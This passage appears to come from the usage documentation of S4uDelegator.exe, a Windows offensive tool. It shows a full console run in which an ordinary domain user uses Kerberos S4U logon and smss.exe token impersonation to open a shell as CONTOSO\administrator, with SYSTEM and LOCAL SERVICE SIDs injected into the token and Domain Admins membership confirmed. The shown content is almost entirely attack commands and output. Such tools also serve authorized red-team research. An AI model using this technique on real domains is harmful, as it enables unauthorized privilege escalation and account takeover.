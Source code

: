 If you want to add token groups, you can specify them comma separated SID values with `-e` option as follows:

```
C:\Tools>whoami
contoso\david

C:\Tools>S4uDelegator.exe -m shell -d contoso -u administrator -e s-1-5-18,S-1-5-19

[>] Target account to S4U:
    |-> Account Name        : CONTOSO\administrator
    |-> Account Sid         : S-1-5-21-3654360273-254804765-2004310818-500
    |-> Account Type        : SidTypeUser
    |-> User Principal Name : administrator@contoso.local
[>] Group SID to add:
    |-> [VALID] NT AUTHORITY\SYSTEM (SID : S-1-5-18) will be added.
    |-> [VALID] NT AUTHORITY\LOCAL SERVICE (SID : S-1-5-19) will be added.
[>] Trying to get SYSTEM.
[+] SeDebugPrivilege is enabled successfully.
[>] Trying to impersonate as smss.exe.
[+] SeAssignPrimaryTokenPrivilege is enabled successfully.
[+] SeIncreaseQuotaPrivilege is enabled successfully.
[>] Trying to impersonate thread token.
    |-> Current Thread ID : 2660
[+] Impersonation is successful.
[>] Trying to Kerberos S4U logon.
[+] S4U logon is successful.
[>] Trying to create a token assigned process.

Microsoft Windows [Version 10.0.18362.175]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Tools>whoami
contoso\administrator

C:\Tools>whoami /groups

GROUP INFORMATION
-----------------

Group Name                                     Type             SID                                          Attributes
============================================== ================ ============================================ ===============================================================
Everyone                                       Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                  Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                         Alias            S-1-5-32-544                                 Mandatory group, Enabled by default, Enabled group, Group owner
NT AUTHORITY\NETWORK                           Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users               Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                 Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SYSTEM                            Well-known group S-1-5-18                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\LOCAL SERVICE                     Well-known group S-1-5-19                                     Mandatory group, Enabled by default, Enabled group
CONTOSO\Group Policy Creator Owners            Group            S-1-5-21-3654360273-254804765-2004310818-520 Mandatory group, Enabled by default, Enabled group
CONTOSO\Domain Admins                          Group            S-1-5-21-3654360273-254804765-2004310818-512 Mandatory group, Enabled by default, Enabled group
```